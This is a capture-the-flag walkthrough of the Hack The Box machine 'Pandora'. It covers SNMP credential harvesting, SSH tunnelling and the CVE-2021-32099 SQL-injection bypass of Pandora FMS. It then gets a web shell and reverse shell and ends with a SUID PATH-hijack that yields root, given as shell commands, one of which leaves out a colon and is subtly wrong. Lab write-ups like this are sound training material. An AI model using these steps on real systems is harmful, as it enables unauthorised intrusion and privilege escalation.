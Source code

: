 # Pandora

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>

### Port 80

The website was some form of corporate website.&#x20;

<figure><img src="../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

However, checking for directories or other web exploits was rather unsuccessful, as I did not find anything of use.&#x20;

### SNMP

Because we couldn't find anything with the TCP ports, we could enumerate the UDP ports and hopefully find something:

```
$ sudo nmap -sU -top-ports=100 panda.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 06:00 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds
```

So port 161 for SNMP was open. We can then use `snmpwalk` to enumerate this further.

<figure><img src="../../../.gitbook/assets/image (378) (1).png" alt=""><figcaption></figcaption></figure>

Redirecting this output to a file, I was able to find some credentials within the contents:

<figure><img src="../../../.gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>

With these credentials, we can SSH in as the `daniel` user.

## Privilege Escalation

### Pandora FMS

As Daniel, we didn't have much permissions over the machine. However, we were able to head to the `/var/www/pandora` directory to find another potential website that was up:

<figure><img src="../../../.gitbook/assets/image (84) (2).png" alt=""><figcaption></figcaption></figure>

Checking the apache2 config files reveals that the user `matt` was running the other web server:

<figure><img src="../../../.gitbook/assets/image (370) (1).png" alt=""><figcaption></figcaption></figure>

So, I started an SSH tunnel using the credentials for `daniel`, and we can forward port 80 to our machine.

```bash
ssh -L 4444:127.0.0.1:80 daniel@pandora.htb
```

<figure><img src="../../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

### Upgrade Session

We can enumerate from the machine that this was a Pandora FMS instance.

<figure><img src="../../../.gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

Pandora FMS was vulnerable to many types of exploits, one of which was CVE-2021-32099, which would leverage SQL Inejction on the `/include/chart_generator.php` endpoint to bypass authentication and allow attackers to login as the admin.

{% embed url="https://github.com/ibnuuby/CVE-2021-32099" %}

Then, we would gain access to the Pandora Dashboard.

<figure><img src="../../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

### RCE as Matt

I did more research and found this repository, which allowed us to make use of the SQL Injection to upload any web shell of our choosing to the server:

<figure><img src="../../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via a Python3 shell.

<figure><img src="../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### Exploiting PATH&#x20;

I ran another LinPEAS as `matt`, and found that the root user was running some processes.

<figure><img src="../../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

I also found this one SUID binary called `pandora_backup`.

```bash
$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
```

Running `pandora_backup` would call `tar` as per the process we found. The fact that `tar` did not use the absolute path means that we can create our own malicious `tar` script that would give us RCE as root because an SUID binary was in use here.

We can run these commands for a shell:

```bash
cp /bin/bash tar
chmod 777 tar
export PATH=$(pwd).$PATH
pandora_backup
```

<figure><img src="../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>
